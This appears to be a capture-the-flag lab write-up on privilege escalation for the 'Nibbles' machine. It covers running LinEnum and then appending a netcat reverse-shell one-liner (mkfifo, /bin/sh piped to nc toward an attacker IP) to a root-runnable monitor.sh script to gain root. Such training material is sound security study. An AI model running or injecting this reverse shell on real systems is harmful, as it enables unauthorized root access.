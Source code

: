 ```yaml
---
title: '4th Step - Priv Escalation '
updated: 2022-12-23T20:27:28.0000000+00:00
created: 2022-12-20T09:12:59.0000000+00:00
---
```


Now that we have a foothold, we want root. The mointor.sh file could be vulnerable, so we should download it and check it out.

We do this via a python http server:
![image1](../../../../../_resources/image1-85.png)

Then we run - on the remote machine:
![image2](../../../../../_resources/image2-67.png)

This should return a **200** success response:
![image3](../../../../../_resources/image3-58.png)

What this does is download a script that we can run that looks for vulnerabilities.
(The automated script is: <https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh>)

This gives us the following info on any superusers:
![image4](../../../../../_resources/image4-49.png)

This tells us that the **nibbler** user can run the monitor.sh file with root, if we get another reverse shell we can become root.

We can inject a reverse shell 1-liner to the file:

**echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2\>&1\|nc 10.10.14.253 8443 \>/tmp/f' \| tee -a monitor.sh**

Note that tee -a, appends the reverse shell to the monitor.sh file. **MAKE SURE YOU APPEND AND DON'T OVERWRITE WRITEABLE FILES.** This is so that we avoid disrupting the system.

Getting root:

Once we append the shell script to monitor.sh all we need to do is start a nc listener on our own machine and execute the script.
![image5](../../../../../_resources/image5-38.png)

![image6](../../../../../_resources/image6-28.png)

![image7](../../../../../_resources/image7-22.png)

We can then move to the root directory and pick up the flag:
![image8](../../../../../_resources/image8-20.png)

And we have pwned nibbles
